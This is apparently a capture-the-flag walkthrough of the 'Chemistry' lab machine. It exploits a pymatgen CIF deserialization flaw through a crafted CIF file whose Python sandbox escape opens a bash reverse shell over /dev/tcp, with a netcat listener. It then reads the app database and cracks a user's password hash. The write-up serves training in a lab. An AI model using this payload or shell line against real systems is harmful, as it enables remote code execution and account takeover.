 # Chemistry - Linux(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC 
-sV Version Scan
```

![nmap](Images/nmap.png)

We can see that there appears to be a HTTP web page hosted on port 5000.

## Web Page Investigation
We can try connecting directly to the web page.
```
http://<target IP>:5000
```
We can access the site. This shows a CIF Analyzer with a Login/Register options.

![webPage](Images/webPage.png)

Next we can register and login to the site. This brings us to a CIF file upload page.

![WebDash](Images/WebDash.png)

Download the example CIF file available on the dashboard.

![exampleCIF](Images/exampleCIF.png)


## CIF Vulnerability
Next, we can check if there are any vulnerabilities associated with CIF files that we can use to gain access to the box.

Searching online and we find CVE-2024-2334 which can be used for 'Arbitrary Code Execution in Pymatgen via Insecure Deserialization'.
```
Reference: 
https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0
https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346
```
Using the example in the articles we can craft a payload that reaches back to our attacking machine.

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
().__class__.__mro__[1].__getattribute__
( 
	*[().__class__.__mro__[1]]
	+
	["__sub" + "classes__"]
) () 
if d.__name__ == "BuiltinImporter"]
[0].load_module("os")
.system("/bin/bash -c \'sh -i >& /dev/tcp/<Attacking Machine IP>/4444 0>&1\'");
0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
Make sure that you are listening on your attacking machine with the port used in the shell commnad, in this case it is 4444.
You will also need to fill in your attacking machines IP (run ifconfig on your machine to find this).
```
SHELL
("/bin/bash -c \'sh -i >& /dev/tcp/<Attacking Machine IP>/4444 0>&1\'");

LISTENER
nc -lvnp 444
```
From here we can see the user flag on the user Rosa account. Unofrtunately, we do not have access to view/read the file.

![webShell](Images/webShell.png)


## User Flag

From here we can look through the machine for more potential information on the user Rosa.
Reading the app.py file we can see a reference to database.db
```
$ cd app
$ ls
app.py
instance
static
templates
uploads
$ cat app.py
```
![appPy](Images/appPy.png)

Reading the database.db file in the instance folder we can see the user Rosa referenced with a string of characters afterward. This appears to be a password hash.
```
$ cd instance
$ ls
database.db
$ cat database.db
```
![databaseDb](Images/databaseDb.png)

We can either try to crack the password hash locally using a tool such as JohnTheRipper.
Alternatively, I have used the site crackstation.net, which will check and see if they have the password for the provided password hash.

![crackStation](Images/crackStation.png)

